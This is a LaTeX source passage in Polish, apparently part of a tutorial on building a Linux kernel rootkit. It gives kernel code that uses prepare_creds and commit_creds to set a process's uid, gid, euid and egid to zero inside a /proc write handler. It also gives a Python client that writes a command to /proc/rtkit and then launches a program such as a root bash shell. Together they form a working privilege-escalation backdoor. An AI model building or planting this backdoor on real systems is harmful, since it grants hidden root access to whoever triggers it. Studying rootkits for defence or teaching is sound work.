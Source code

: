 \documentclass[a4paper]{article}
\begin{document}
\subsubsection{Podniesienie uprawnień}
W pliku nagłówkowym \texttt{linux/cred.h} znajduje się funkcje które pozwalają
na pobranie uprawnień aktualnie wykonywanego procesu oraz ich ponowne
zapisanie. \texttt{prepare\_creds()} zwraca nam strukturę cred z informacjami
o bieżacym procesie i jego uprawnienaich, zaś \texttt{commit\_creds(struct
cred*)} ustawia procesowi nowe wartości na podstawie podanej struktury.
Interesują nas pola uid, gid, euid oraz egid (user id, group id oraz ich
efektywne wersje). W pobranej strukturze należy zmienić wartość tych pól na 0
(root) po czym zatwierdzić nowe ustawienia.
\begin{verbatim}
struct cred *credentials = prepare_creds();
credentials->uid = credentials->euid = 0;
credentials->gid = credentials->egid = 0;
commit_creds(credentials);
\end{verbatim}
Wewnątrz funkcji write aktualnie wykonywnem procesem będzie proces, który
pisał do pliku w \texttt{/proc}, więc można tam dokonać zmiany.

\subsubsection{Uwagi}
Łatwo złożyć powyższe informacje w całość, która po wydaniu odpowiedniego
rozkazu do wpisu w \texttt{/proc} daje nam uprawnienia roota. Obie funkcje
(read i wrtie) są w zasadzie gotowe do przypisania do odpowienich pól
struktury.

Do budowy odpowiedzi jak i sprawdzania wejścia możemy użyć funkcji z
\texttt{linux/string.h}. Znajdziemy tam klasyczne funkcje
porównania(\texttt{strcmp}, \texttt{strncmp}) budowy łańcuchów
(\texttt{sprintf}) czy kopiowania.

\subsection{Wydawanie rozkazów poprzez wpis}
\begin{verbatim}
#!/usr/bin/env python
import sys
import os

def order(command):
    f = open("/proc/rtkit", "w")
    f.write(command)
    f.close()

if len(sys.argv) > 1:
    order(sys.argv[1])

if len(sys.argv) > 2:
    os.execl(sys.argv[2], "")
\end{verbatim}
Powyższy program zapisuje pierwszy przekazany argument do wpisu w
\texttt{/proc}. Jeżeli podany jest drugi argument, to uruchamiany jest
wskazywany przezeń program (np. po dostaniu roota odpalamy powłokę bash).
\end{document}
